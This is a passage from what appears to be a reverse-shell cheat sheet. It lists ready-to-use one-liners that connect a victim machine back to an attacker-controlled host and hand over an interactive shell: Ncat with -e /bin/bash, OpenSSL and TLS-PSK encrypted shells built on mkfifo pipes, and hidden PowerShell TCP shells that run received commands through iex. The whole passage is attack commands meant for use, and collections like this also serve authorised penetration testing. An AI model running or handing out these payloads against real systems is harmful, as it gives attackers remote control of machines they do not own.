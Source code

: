 #### Ncat

```bash
ncat $ATTACKER_IP $ATTACKER_PORT -e /bin/bash
ncat --udp $ATTACKER_IP $ATTACKER_PORT -e /bin/bash
```

#### OpenSSL

Attacker:
```powershell
user@attack$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
user@attack$ openssl s_server -quiet -key key.pem -cert cert.pem -port $ATTACKER_PORT
or
user@attack$ ncat --ssl -vv -l -p $ATTACKER_PORT

user@victim$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect $ATTACKER_IP:$ATTACKER_PORT > /tmp/s; rm /tmp/s
```

TLS-PSK (does not rely on PKI or self-signed certificates)
```bash
# generate 384-bit PSK
# use the generated string as a value for the two PSK variables from below
openssl rand -hex 48 
# server (attacker)
export LHOST="*"; export LPORT="$ATTACKER_PORT"; export PSK="replacewithgeneratedpskfromabove"; openssl s_server -quiet -tls1_2 -cipher PSK-CHACHA20-POLY1305:PSK-AES256-GCM-SHA384:PSK-AES256-CBC-SHA384:PSK-AES128-GCM-SHA256:PSK-AES128-CBC-SHA256 -psk $PSK -nocert -accept $LHOST:$LPORT
# client (victim)
export RHOST="$ATTACKER_IP"; export RPORT="$ATTACKER_PORT"; export PSK="replacewithgeneratedpskfromabove"; export PIPE="/tmp/`openssl rand -hex 4`"; mkfifo $PIPE; /bin/sh -i < $PIPE 2>&1 | openssl s_client -quiet -tls1_2 -psk $PSK -connect $RHOST:$RPORT > $PIPE; rm $PIPE
```

#### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$ATTACKER_IP",$ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('$ATTACKER_IP',$ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
